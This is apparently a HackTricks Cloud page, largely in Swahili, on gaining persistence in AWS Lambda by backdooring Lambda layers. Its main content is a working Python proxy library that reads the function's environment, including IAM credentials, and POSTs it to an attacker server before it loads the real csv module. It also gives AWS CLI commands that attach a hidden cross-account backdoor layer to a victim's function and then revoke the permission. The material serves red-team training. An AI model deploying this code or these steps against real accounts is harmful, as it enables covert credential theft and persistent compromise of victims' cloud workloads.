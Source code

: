 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

A Lambda layer ni archive ya .zip ambayo **inaweza kuwa na msimbo wa ziada** au maudhui mengine. Layer inaweza kuwa na maktaba, [runtime ya kawaida](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, au faili za usanidi.

Inawezekana kujumuisha hadi **layers tano kwa kazi**. Unapojumuisha layer katika kazi, **maudhui yanachukuliwa kwenye saraka ya `/opt`** katika mazingira ya utekelezaji.

Kwa **kawaida**, **layers** unazounda ni **binafsi** kwa akaunti yako ya AWS. Unaweza kuchagua **kushiriki** layer na akaunti nyingine au **kufanya** layer hiyo **kuwa ya umma**. Ikiwa kazi zako zinatumia layer ambayo akaunti tofauti ilichapisha, kazi zako zinaweza **kuendelea kutumia toleo la layer baada ya kufutwa, au baada ya ruhusa yako ya kufikia layer hiyo kufutwa**. Hata hivyo, huwezi kuunda kazi mpya au kusasisha kazi ukitumia toleo la layer lililofutwa.

Kazi zilizowekwa kama picha ya kontena hazitumii layers. Badala yake, unapakua runtime unayopendelea, maktaba, na utegemezi mwingine ndani ya picha ya kontena unapojenga picha hiyo.

### Python load path

Njia ya kupakia ambayo Python itatumia katika lambda ni ifuatayo:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.
{% endhint %}

Therefore, the requisites are:

* **Check libraries** that are **loaded** by the victims code
* Create a **proxy library with lambda layers** that will **execute custom code** and **load the original** library.

### Preloaded libraries

{% hint style="warning" %}
When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Na hii ni **orodha** (hakikisha kwamba maktaba kama `os` au `json` tayari zipo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Na hii ni orodha ya **maktaba** ambazo **lambda inajumuisha zilizowekwa kwa default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

Katika mfano huu hebu tuone kwamba msimbo unaolengwa unatumia **`csv`**. Tunakwenda **kufanya backdoor kwenye uagizaji wa maktaba ya `csv`**.

Ili kufanya hivyo, tutaunda **directory csv** yenye faili **`__init__.py`** ndani yake katika njia ambayo inapakuliwa na lambda: **`/opt/python/lib/python3.9/site-packages`**\
Kisha, wakati lambda inatekelezwa na kujaribu kupakua **csv**, faili yetu ya **`__init__.py` itapakuliwa na kutekelezwa**.\
Faili hii lazima:

* Itekeleze payload yetu
* Ipakue maktaba ya csv asilia

Tunaweza kufanya yote mawili kwa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Kisha, tengeneza zip na hii code katika njia **`python/lib/python3.9/site-packages/__init__.py`** na uiweke kama lambda layer.

Unaweza kupata hii code katika [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Payload iliyounganishwa it **tuma IAM creds kwa seva WAKATI WA KWANZA inapoitwa au BAADA ya kurekebisha kontena la lambda** (mabadiliko ya code au lambda baridi), lakini **mbinu nyingine** kama ifuatavyo zinaweza pia kuunganishwa:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Kumbuka kwamba inawezekana kutumia **lambda layers kutoka kwa akaunti za nje**. Aidha, lambda inaweza kutumia layer kutoka kwa akaunti ya nje hata kama haina ruhusa.\
Pia kumbuka kwamba **idadi ya juu ya layers ambazo lambda inaweza kuwa nazo ni 5**.

Hivyo, ili kuboresha uwezo wa mbinu hii mshambuliaji anaweza:

* Backdoor layer iliyopo ya mtumiaji (hakuna kitu ni cha nje)
* **Tengeneza** **layer** katika **akaunti yake**, mpe **akaunti ya mwathirika ruhusa** kutumia layer, **sanidi** **layer** katika Lambda ya wahanga na **ondoa ruhusa**.
* **Lambda** bado itakuwa na uwezo wa **kutumia layer** na **mwathirika hata** hana njia rahisi ya **kupakua code za layers** (kando na kupata rev shell ndani ya lambda)
* Mwathirika **hataona layers za nje** zinazotumika na **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
